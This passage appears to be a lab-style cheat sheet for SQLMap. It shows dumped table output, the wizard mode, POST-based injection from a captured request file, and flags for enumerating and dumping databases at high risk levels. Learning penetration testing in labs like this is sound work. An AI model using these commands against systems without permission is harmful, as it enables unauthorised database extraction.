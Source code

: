 Output:
```
+---------------------+------------+---------+
| Date                | name       | pass    |
+---------------------+------------+---------+
| 09/09/2024          | Thomas THM | testing |
+---------------------+------------+---------+
```

SQLMap can also detect and attempt to crack password hashes!

---

### ⚙️ Wizard Mode (Interactive CLI for Beginners)

```bash
sqlmap --wizard
```

Prompts:
- Target URL
- Injection point
- Output format
- What to extract (databases, tables, columns)

---

### ✉️ POST-Based SQLi (Request Interception)

1. Capture POST request with Burp Suite or browser dev tools
2. Save as `intercepted_request.txt`

```bash
sqlmap -r intercepted_request.txt
```

---

### 🔍 Advanced Options

| Flag         | Function |
|--------------|----------|
| `--dbs`      | List all databases |
| `-D`         | Specify target database |
| `--tables`   | List tables in DB |
| `-T`         | Specify target table |
| `--columns`  | List table columns |
| `--dump`     | Extract content |
| `--level=5`  | In-depth testing (default is 1) |
| `--risk=3`   | More aggressive payloads |
| `--batch`    | Auto-answer prompts |

---